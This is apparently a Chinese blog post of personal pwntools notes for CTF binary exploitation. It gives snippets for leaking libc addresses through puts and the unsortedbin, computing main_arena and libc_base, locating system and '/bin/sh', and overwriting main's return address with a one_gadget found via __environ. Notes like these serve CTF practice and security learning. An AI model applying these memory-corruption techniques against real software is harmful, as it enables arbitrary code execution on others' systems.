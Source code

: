 
title: pwntools-code

date: 2018-03-31 21:23:18

categories:
- tools
- pwntools



**简单的记一下 pwntools 用到的命令 (不定期更新)**



`context.terminal = ['gnome-terminal', '-x', 'sh', '-c']`

`context.log_level = "debug"`

`p = process("./4-ReeHY-main")`

`libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')`

```python
gdb.attach(p,'''
b *0x080486bf
continue
''')
```

`libc_system = libc.symbols['system']`
`libc_binsh = next(libc.search("/bin/sh"))`

`puts_plt = elf.plt['puts']`

`p.recvuntil("$ ")`

`p.sendline("3")`

`p.interactive()`

`log.success('puts addr: ' + hex(puts_addr))`

```python
system_addr = u64(puts_addr+'\x00'*2)-puts_off+system_off
atoi_addr = u64(p.recv(8)) & 0xffffffffffff  
```


```Python
def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset
```

`    log.success('main arena addr: ' + hex(main_arena))`





**通过main_arena确定libc_base:**

首先要确定能够输出 chunk_A 内容，然后将chunk_A 链入 unsortedbin_addr (size>=0x80)。

unsortedbin_addr 中的 fb 就指向unsortedbin bins开头 ， 输出A内容，泄露unsortedbin_addr。

通过offset_bin_main_arena(0) 确定偏移。

```python
main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
main_arena_offset = 0x3c4b20  
#通过gdb.attach(),vmmap 查看 第一个 .os 的其实地址 为 libc_base
# main_arena_offset = main_arena - libc_base
libc_base = main_arena - main_arena_offset
```

![img-2](pwntools-code/img-2.png)





**获取 main_arena 地址2**  , 确定libc_base

首先要确定能够输出 chunk_A 内容，然后将chunk_A 链入 unsortedbin_addr (size>=0x80)。

unsortedbin_addr 中的 fb 就指向unsortedbin bins开头 ， 输出A内容，泄露unsortedbin_addr。

main_arena = unsorted_offset_arena - unsorted_offset_arena(10*8+8)

![img-1](pwntools-code/img-1.png)

通过gdb.attach(),   vmmap 查看 第一个 .os 的其实地址 为 libc_base

main_arena_offset = main_arena - libc_base

**libc_base = main_arena - main_arena_offset**

![img-2](pwntools-code/img-2.png)

相关代码：

```python
main_arena_offset = 0x3c4b20
unsorted_offset_arena = 8 + 10 * 8
main_arena = unsorted_offset(泄露) - unsorted_offset_arena
#gdb.attach()
libc_base = main_arena - main_arena_offset
log.success('main arena addr: ' + hex(main_arena))
log.success('libc base addr: ' + hex(libc_base))
```





**修改程序的 main 函数的返回地址为 one_gadget**

需要知道需要泄露 libc_base 和 environ_pointer

```python
environ_pointer = libc_base + libc.symbols['__environ']
environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00') 
#泄露environ_pointer 得到 environ_addr
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
```

main_ret_addr 修改其内存地址为exc() 。